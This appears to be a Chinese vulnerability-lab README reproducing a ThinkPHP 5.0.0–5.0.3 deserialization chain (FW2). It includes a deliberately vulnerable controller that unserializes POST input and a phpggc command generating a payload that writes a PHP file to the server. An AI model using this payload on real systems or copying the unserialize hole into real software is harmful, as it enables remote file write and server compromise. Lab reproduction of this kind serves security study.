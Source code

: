## ThinkPHP 反序列化链 FW2

### 漏洞环境

执行如下命令启动一个 `thinkphp 5.0.3` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/ ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        if(isset($_POST['a'])){
            return unserialize(base64_decode($_POST['a']));
        }
        else{
            return 'hello world';
        }
    }
}
```

### 漏洞影响

thinkphp 5.0.0 - 5.0.3

### 漏洞分析

暂未开放

### 漏洞复现

下载 `phpggc` 并执行如下操作

```
echo "<?php phpinfo();?>" > info.php
./phpggc ThinkPHP/FW2 /tmp/1.php ./info.php -b
```

这样可以生成一段 `base64` 字符串，然后进行如下操作

![image-20210913220824735](./images01.jpg)

如上执行，可以写入 `/tmp` 文件夹，我们可以进入 `docker` 查看

![image-20211005223457020](./images02.png)

成功写入

### 漏洞 EXP

暂未开放



